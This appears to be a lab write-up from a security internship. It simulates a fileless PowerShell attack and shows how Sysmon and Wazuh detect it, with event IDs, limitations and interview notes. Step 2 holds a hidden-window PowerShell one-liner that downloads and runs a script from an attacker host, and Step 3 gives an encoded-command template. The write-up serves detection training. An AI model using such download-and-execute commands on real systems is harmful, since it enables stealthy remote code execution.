 # Phase 3 – Scenario 1: Fileless Malware with PowerShell

## 🎯Objective:
Simulate and detect a fileless malware attack using PowerShell to execute a remote script payload without writing files to disk.

---

## Environment:
- **Victim**: Windows 10
- **Attacker**: Kali Linux
- **SIEM**: Wazuh (Amazon Linux OVA)

---

## Attack Simulation Steps:

### Step 1: Host the Payload on Kali
```bash
echo "Write-Output 'This is a simulated attack'" > fakepayload.ps1
sudo python3 -m http.server 8080
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_network_connection.png)

### Step 2: Run Fileless Payload on Windows
```powershell
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<Kali-IP>/fakepayload.ps1')"
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation.png)
> (Window closed automatically due to the -w hidden flag. Screenshot taken before execution for simulation purpose.)

### Step 3: Simulate Obfuscated Payload (Base64)
```powershell
powershell -EncodedCommand <Base64_Payload>
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_b64.png)

---

## Detection Logs:
Sysmon Logs:
- Event ID 1 (Process Creation)
  - Shows powershell.exe with suspicious flags (-nop, -EncodedCommand)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_sysmon1_log.png)
  - Captured by Wazuh
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_wazuh_log.png)
- Event ID 3 (Network Connection)
  - PowerShell connecting to Kali server (via port 8080)
  - Captured locally, not reflected in Wazuh dashboard (limitation)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_sysmon3_log.png)
- Event ID 10 (Script Block Logging)
  - Not observed (expected with -EncodedCommand)
- Event ID 4104 (PowerShell Logging)
  - Logged when running encoded payload
  - Confirms execution of base64-decoded script
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_powershell_log4104.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_powershell_log.png)

---

#### ⚠️Limitations:
- Wazuh agent misses Event ID 3 logs due to preconfigured Amazon Linux OVA limitations
- Network connection logs seen only in local Event Viewer
- PowerShell window closes automatically with -w hidden, screenshot taken before execution

---

#### Interview Notes:
Q: How do you detect fileless malware in Windows?
A: Monitor:
- Event ID 1: Look for PowerShell with suspicious arguments
- Event ID 3: Watch for outbound connections to external IPs
- Event ID 4104: Decode obfuscated commands
- Use SIEM like Wazuh/ELK to correlate behaviors.
